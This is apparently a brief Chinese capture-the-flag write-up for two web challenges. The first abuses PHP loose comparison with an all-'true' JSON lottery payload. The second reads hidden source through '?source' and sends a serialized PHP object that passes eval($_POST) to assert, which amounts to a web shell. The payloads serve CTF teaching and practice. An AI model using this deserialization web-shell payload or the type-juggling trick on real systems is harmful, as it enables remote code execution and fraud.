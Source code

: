 ## lottery

```json
{"action":"buy","numbers":[true,true,true,true,true,true,true]}
```

PHP 弱类型松散比较，以`"1"`为例，和`TRUE`,`1`,`"1"`相等。

发的Header里带上sessionid

中几次头奖，钱够了买flag

## 西北工业大学报时台

看代码藏了个链接 ./time.php?source

看php代码，用data=里面的东西的反序列化怎么搞

```
http://47.93.116.52:20001/time.php?data=O:8:%22HelloPhp%22:2:{s:1:%22a%22;s:19:%22eval($_POST[%22aaa%22])%22;s:1:%22b%22;s:6:%22assert%22;}
```

![image-20200922094536883](wp.assets/image-20200922094536883.png)
